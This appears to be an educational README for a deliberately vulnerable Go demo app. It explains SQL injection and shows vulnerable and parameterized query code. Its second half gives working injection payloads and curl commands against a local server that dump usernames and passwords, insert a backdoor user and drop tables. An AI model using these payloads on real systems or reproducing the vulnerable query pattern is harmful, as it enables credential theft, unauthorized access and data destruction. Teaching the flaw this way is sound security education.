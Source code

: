 # What is SQL injection?

SQL injection is a vulnerability in a relational database client that allows a malicious actor to run unauthorized SQL commands against the database. This can be a big problem because it gives someone the ability to destroy important data, retrieve sensitive information, and create a backdoor into protected systems.

# How to identify a SQL injection vulnerability

Any time a SQL query is executed with variables and the variables are not properly escaped, this leaves an application open to SQL injection. For example:

```go
// String concatenation has the same vulnerability:
// query := "SELECT * FROM messages WHERE id = "  + params.ByName("id")
query := fmt.Sprintf("SELECT * FROM messages WHERE id = %s", params.ByName("id"))

if rows, err := db.Query(query); err != nil {
		return err
}
```

The code above selects rows from a table, but notice that the query string is being created directly via a string template, and there is nothing preventing someone from altering the SQL command. For example, instead of an ID, someone could pass in the string `1; DROP table messages; --`, which ends the initial select command, adds a new command, and comments out the remaining code, thereby destroying the data inside of the `messages` table.

# How to guard against SQL injection

Most programming languages have packages/libraries that make it easy to interact with the database of your choice. Each of these libraries will have methods that allow the application to execute parameterized queries, which will ensure that any variable that's being used to create a query string cannot be treated as a SQL command:

```go
// This query syntax is specific to a PostgreSQL database, where $1 is a placeholder for a parameter.
// If you are using a different database, please refer to its documentation for the correct syntax.
rows, err := db.QueryContext(ctx, "SELECT * FROM messages WHERE id = $1", params.ByName("id"))
if err != nil {
    return err
}
```

This method would ensure that if a user passes in `1; DROP table messages; --` as the value for the ID, the database would search for an ID matching "1; DROP table messages; --", rather than running the command against the database.


# How to hack into the database

## Listing the sensitive data in the users table

Notice that the code for `getMessages` in `main.go` doesn't give explicit access to the users table; however, it does give us access to user IDs, which can be used to retrieve the usernames and passwords for each user. The injected string would be something like this:

```sql
1 OR 1=1 UNION ALL SELECT id, 0 AS user_id, username || ' - ' || password FROM users --
```

Put together with the internal SQL query, the resulting command will look like this:

```sql
SELECT * FROM messages
WHERE
	id = 1 OR 1=1
UNION ALL
SELECT
	id,
	0 AS user_id,
	username || ' - ' || password
FROM users --
```

To break down each step of the query:
- `SELECT * FROM messages WHERE id = 1 or 1=1` logically translates to selecting all entries from the messages table.
- `UNION ALL SELECT id, 0 as user_id, username || ' - ' || password FROM users --` selects all entries from the users table and formats the row structure to match the messages table (i.e. integer and text), combines them with the message rows, and comments out the remaining code.

Because the entrypoint for the data is in the URL, the SQL statement will need to be [percent-encoded](https://developer.mozilla.org/en-US/docs/Glossary/Percent-encoding). Below is the curl request that will retrieve the sensitive data from the users table:

```sh
curl \
	"http://localhost:3000/messages/1%20OR%201%3D1%20UNION%20ALL%20SELECT%20id%2C%200%20AS%20user_id%2C%20username%20%7C%7C%20'%20-%20'%20%7C%7C%20password%20FROM%20users%20--"
```

## Inserting a login for a malicious user into the users table

Just like the example above, the `sendMessage` method in the `main.go` file only gives explicit access to the messages table; however, we can still insert data into the users tables:

```sql
', 1); INSERT INTO users (username, password) VALUES ('maliciousUser', 'p@$$w0rd'); --
```

Put together with the internal SQL statement, the resulting command will look like this:

```sql
INSERT INTO messages (message, user_id)
VALUES ('', 1);
INSERT INTO users (username, password)
VALUES ('maliciousUser', 'p@$$w0rd'); --
```

To break down each step of the statement:
- `INSERT INTO messages (message, user_id) VALUES ('', 1);` inserts a blank message into the messages table.
- `INSERT INTO users (username, password) VALUES ('maliciousUser', 'p@$$w0rd'); --` inserts a new username and password into the users table and comments out the remaining code.

Because the entrypoint for the data is in the body of the request, the SQL statement will need to be sent as a string in the body of the request. Below is the curl request that will insert a malicious user into the users table:

```sh
	curl \
		--request POST \
		--data-binary "', 1); INSERT INTO users (username, password) VALUES ('maliciousUser', 'p@$$w0rd'); --" \
		http://localhost:3000/message/1
```

## Destroying the table data in the database

Destroying the table data will be the exact same process as inserting a malicious user; however, the injected statement will be different:

```sql
', 1); DROP TABLE messages; DROP TABLE users; --
```

Put together with the internal SQL statement, the resulting command will look like this:

```sql
INSERT INTO messages (message, user_id)
VALUES ('', 1);
DROP TABLE messages; DROP TABLE users; --
```

The `DROP TABLE` statements will destroy the tables, resulting in the loss of all message and user data. Below is the curl request that will destroy the table data in the database:

```sh
curl \
	--request POST \
	--data-binary "', 1); DROP TABLE messages; DROP TABLE users; --" \
	http://localhost:3000/message/1
```